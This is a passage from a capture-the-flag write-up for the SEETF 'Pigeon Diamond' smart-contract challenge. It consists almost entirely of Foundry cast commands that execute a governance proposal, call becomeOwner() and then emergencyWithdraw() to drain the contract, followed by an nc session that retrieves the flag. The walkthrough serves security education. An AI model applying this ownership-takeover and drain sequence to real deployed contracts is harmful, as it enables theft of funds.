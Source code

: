 Finally just call emergencyWithdraw() as the owner to drain it


get pigeonDiamond address :
```
# cast call 0x1786410938B5137639D090c6774faFB99CbBF892 "pigeonDiamond()(address)" --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
0xDe8ca44028e4F4EDd75612fD33D19F78838FA4E9
```
and proposalId :
```
# cast call 0x1786410938B5137639D090c6774faFB99CbBF892 "proposalId()(uint256)" --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
0
```

Execute proposal :
```
# cast send 0xDe8ca44028e4F4EDd75612fD33D19F78838FA4E9 "executeProposal(uint256)" 0 --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
```

Become owner :
```
# cast send 0xDe8ca44028e4F4EDd75612fD33D19F78838FA4E9 "becomeOwner()" --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
```

Emergency withdraw :
```
# cast send 0xDe8ca44028e4F4EDd75612fD33D19F78838FA4E9 "emergencyWithdraw()" --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
```

Then call isSolved() in setup contract to confirm it is solved :
```
# cast call 0x3e0B37296BE0147dCAee55A1968908AD2080c303 "isSolved()(bool)" --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
true
```

```
# nc win.the.seetf.sg 8552
1 - launch new instance
2 - kill instance
3 - acquire flag
action? 3
uuid please: ce9c5082-29fb-4a36-b0d0-65726fb741c2

Congratulations! You have solve it! Here's the flag: 
SEE{D14m0nd5_st0rAg3_4nd_P1g30nS_d0n't_g0_w311_t0G37h3r_B1lnG_bl1ng_bed2cbc16cbfca78f6e7d73ae2ac987f}
```
